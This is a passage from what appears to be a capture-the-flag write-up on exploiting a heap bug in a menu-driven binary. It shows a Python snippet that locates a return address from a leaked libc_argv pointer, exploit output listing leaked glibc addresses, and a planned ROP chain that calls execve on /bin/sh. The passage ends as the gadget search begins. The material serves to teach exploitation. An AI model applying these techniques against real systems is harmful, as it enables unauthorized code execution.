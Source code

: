 The retaddr is at `0x7ffeab9dab78`. We can calculate it in runtime, with an offset
from the `libc_argv` that we know (`0x7ffeab9dacb8`):

```python
# Calculate return address from menu_loop
return_from_menu_loop = libc_argv + 0x7ffeab9dab78 - 0x7ffeab9dacb8
print("ROP addr on stack: ", hex(return_from_menu_loop))
```

## Putting together a ROP chain

Rerun the exploit, reattach GDB:

```
$ ./exploit.py
heap_base:  0x55763da3b000
main_arena_ptr 0x55763da3c940
main_arena:  0x7ff584c1ac80
glibc_code:  0x7ff584a28000
glibc_rodata:  0x7ff584bbd000
glibc_rwdata:  0x7ff584c1a000
__libc_argv_ptr:  0x7ff584c1ba20
__libc_argv:  0x7ffd0f58ac28
ROP addr on stack:  0x7ffd0f58aae8
(...)
```

I initially tried to ROP with a simple `system()` call. But, with a heap in
somewhat corrupted state, it was crashing the program. So I went with a
syscall instead.

We are building the following chain:

*   Pointer to `pop rdi ; ret`
*   Pointer to `"/bin/sh"`
*   Pointer to `pop rsi ; ret`
*   0
*   Pointer to `pop rax ; pop rdx ; pop rbx ; ret`
*   `59` (syscall ID for `execve`)
*   0
*   0
*   Pointer to `syscall`

Then, we'll write it at the `return_from_menu_loop` calculated above.
We will find offsets of these parts relative to above `glibc_rodata`
(`0x7ff584bbd000`) and `glibc_code` (`0x7ff584a28000`)

### Finding gadgets

There are some gadgets provided in the program (see above), but, they
don't seem particularly interesting. But we have the whole glibc to
look for better ones:

*   **`/bin/sh`**

